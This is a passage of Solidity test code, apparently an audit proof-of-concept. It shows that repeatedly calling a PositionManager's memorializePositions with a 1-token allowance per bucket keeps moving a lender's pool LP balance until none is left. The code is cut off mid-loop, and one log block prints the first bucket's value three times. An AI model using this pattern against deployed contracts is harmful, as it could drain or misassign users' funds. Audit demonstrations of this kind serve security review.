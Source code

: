 ```solidity
        });

        // Mint an NFT to later memorialize existing positions into.
        uint256 tokenId = _mintNFT(testsAddress, testsAddress, address(_pool));

        // Pool lp balances before.
        (uint256 poolLPBalanceIndex1, ) = _pool.lenderInfo(
            indexes[0],
            testsAddress
        );
        (uint256 poolLPBalanceIndex2, ) = _pool.lenderInfo(
            indexes[1],
            testsAddress
        );
        (uint256 poolLPBalanceIndex3, ) = _pool.lenderInfo(
            indexes[2],
            testsAddress
        );

        console.log("\n Pool lp balances before:");
        console.log("bucket %s: %s", indexes[0], poolLPBalanceIndex1);
        console.log("bucket %s: %s", indexes[1], poolLPBalanceIndex2);
        console.log("bucket %s: %s", indexes[2], poolLPBalanceIndex3);

        intialLPBalance =
            poolLPBalanceIndex1 +
            poolLPBalanceIndex2 +
            poolLPBalanceIndex3;

        // PositionManager lp balances before.
        (uint256 managerLPBalanceIndex1, ) = _positionManager.getPositionInfo(
            tokenId,
            indexes[0]
        );
        (uint256 managerLPBalanceIndex2, ) = _positionManager.getPositionInfo(
            tokenId,
            indexes[1]
        );
        (uint256 managerLPBalanceIndex3, ) = _positionManager.getPositionInfo(
            tokenId,
            indexes[2]
        );

        console.log("\n PositionManger lp balances before:");
        console.log("bucket %s: %s", indexes[0], managerLPBalanceIndex1);
        console.log("bucket %s: %s", indexes[1], managerLPBalanceIndex1);
        console.log("bucket %s: %s", indexes[2], managerLPBalanceIndex1);

        console.log(
            "\n <--- Repeatedly invoke memorializePositions with a min allowance set for each tx --->"
        );

        // Approve the PositionManager for only 1 token in each bucket.
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 1 * 1e18;
        amounts[1] = 1 * 1e18;
        amounts[2] = 1 * 1e18;

        // Continuosly invoke memorializePositions with the min allowance
        // until Pool lp balance is 0.
        while (
            poolLPBalanceIndex1 != 0 &&
```